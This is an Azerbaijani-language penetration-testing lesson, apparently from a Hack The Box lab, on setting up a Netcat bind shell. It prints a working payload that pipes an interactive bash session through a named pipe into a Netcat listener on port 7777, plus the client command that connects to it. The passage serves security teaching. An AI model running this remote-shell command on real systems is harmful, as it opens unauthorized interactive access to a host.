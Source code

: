 ## Netcat ilə Əsas Bağlanmış Şell Qurmaq

Biz Netcat-ı müştəri və server arasında mətn göndərmək üçün istifadə edə biləcəyimizi göstərdik, lakin bu, bağlanmış şell deyil, çünki biz ƏS və fayl sistemi ilə qarşılıqlı əlaqədə ola bilmirik. Biz yalnız Netcat tərəfindən qurulan boru kəməri (pipe) daxilində mətn ötürə bilirik. Gəlin, əsl bağlanmış şell qurmaq üçün şellimizi təmin etmək məqsədilə Netcat istifadə edək.

Server tərəfdə, müştəri qoşulmağa cəhd etdikdə sistemə bir şellin təmin edilməsini təmin etmək üçün **kataloqu**, **şelli**, **dinləyicini**, bəzi **boru kəmərlərini (pipelines)** və **giriş və çıxışın yönləndirilməsini** təyin etməliyik.

### № 1: Server - Bash şellini TCP sessiyasına bağlamaq

```
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Yuxarıdakı əmrlər bizim **faydalı yükümüz (payload)** hesab olunur və biz bu faydalı yükü əl ilə çatdırdıq. Biz görəcəyik ki, faydalı yüklərimizdəki əmrlər və kod onu çatdırdığımız hədəf əməliyyat sistemindən asılı olaraq dəyişəcək.

Serverdə bir şell təmin edildiyi üçün, müştəriyə qayıdıb serverə qoşulmaq üçün Netcat istifadə edin.

### № 2: Müştəri - Hədəfdəki bağlanmış şellə qoşulmaq

```
nijatmansimov@htb[/htb]$ nc -nv 10.129.41.200 7777
Target@server:~$
```

Görəcəyik ki, biz hədəflə uğurla bağlanmış şell sessiyası qurmuşuq. Unutmayın ki, bu ssenaridə biz həm hücum kompüterimizə, həm də hədəf sistemə tam nəzarət edirdik, bu isə tipik vəziyyət deyil. Biz bu təcrübələri bağlanmış şellin əsaslarını və onun heç bir təhlükəsizlik nəzarəti (NAT aktivləşdirilmiş routerlər, aparat firewallları, Veb Tətbiq Firewallları, IDS, IPS, ƏS firewallları, endpoint mühafizəsi, autentifikasiya mexanizmləri və s.) və ya istismar tələb olunmadan necə işlədiyini anlamaq üçün həyata keçirdik. Bu fundamental anlayış, daha çətin və real ssenarilərə, xüsusən də zəif sistemlərlə işləməyə başladıqda faydalı olacaq.

Bu bölmənin əvvəlində qeyd edildiyi kimi, bağlanmış şellə qarşı müdafiənin daha asan olduğunu xatırlamaq da yaxşıdır. Əlaqə **gələn** olduğu üçün, dinləyici işə salınarkən standart portlardan istifadə edilsə belə, firewalllar tərəfindən aşkar edilməsi və bloklanması daha ehtimal olunur. Bunun öhdəsindən gəlməyin yolları var, bu isə növbəti bölmədə müzakirə edəcəyimiz **tərs şell** (reverse shell) istifadə etməklə mümkündür.





















